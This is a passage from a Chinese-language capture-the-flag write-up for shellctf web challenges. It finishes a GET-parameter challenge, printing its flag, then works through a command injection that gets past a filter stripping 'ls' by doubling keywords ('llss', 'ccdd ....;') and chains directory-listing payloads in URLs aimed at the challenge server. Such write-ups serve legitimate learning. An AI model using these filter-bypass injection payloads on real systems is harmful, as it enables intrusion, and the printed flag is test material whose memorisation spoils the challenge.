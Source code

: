 很明顯的，key 就是剛才找到的 `C0loR`，而 value 則是網頁中出現的 `Blue is my favourite colour`，而根據此提示，推測使用 `C0loR=Blue` 作為 GET parameter
http://20.193.247.209:8222/check?C0loR=Blue
![](https://i.imgur.com/zY7g3JT.png)

成功獲得 flag

shellctf{C0ooooK13_W17h_c0ooorr3c7_Parr4m37er...}

### ILLUSION

題目如下:
![](https://i.imgur.com/XgsOr9z.png)

![](https://i.imgur.com/YkFC5Qg.png)

在進入題目的網站後，可以看到主要有一個輸入框

嘗試輸入一些文字，發現有些字可以出現在 `What I see ◔_◔` 的後面有些不能

舉例來說，輸入 `a` 可以看到
http://20.125.142.38:8765/wH4t_Y0u_d1d?inn=a
![](https://i.imgur.com/xViCW6Y.png)

輸入 `b` 則不行
http://20.125.142.38:8765/wH4t_Y0u_d1d?inn=b
![](https://i.imgur.com/vy6UDCs.png)

根據嘗試，基本上只有以下的單字能輸入進去 (及其組成的字串)
```
a c d f g l s t x ; . (不包含空白)
```

然後意外的發現，輸入 `ls` 字串還會被裁掉，如下 payload:
`acdfglstx;.`
http://20.125.142.38:8765/wH4t_Y0u_d1d?inn=acdfglstx%3B.
![](https://i.imgur.com/8sbdqim.png)

推測這邊會擋 ls 輸入的原因是會直接將輸入丟進 command 中，可以嘗試 command injection 的方向

至於會被裁掉，可以嘗試用 `llss` 這樣讓他自動幫我切掉中間的 ls，有點類似 path traversal `../` waf bypass 的作法

payload: `llss .`
http://20.125.142.38:8765/wH4t_Y0u_d1d?inn=llss+.
![](https://i.imgur.com/0LSTGfX.png)
command injection 成功

嘗試尋找 flag 檔案，由能用的單字中判斷檔案名稱應該是 `flag` 相關

而由於不能用 `/` 的關係，無法直接用 `../..` 的方式往上一層，但可以使用 `cd ..; cd ..;` 的方式往上 (實際上的 payload 為 `ccdd ....;` 這樣)

最終在上二層的位置找到可能的檔案 `flag.txt`
payload: `ccdd ....; ccdd ....; llss .`
http://20.125.142.38:8765/wH4t_Y0u_d1d?inn=ccdd+....%3B+ccdd+....%3B+llss+.
![](https://i.imgur.com/EIYTB85.png)

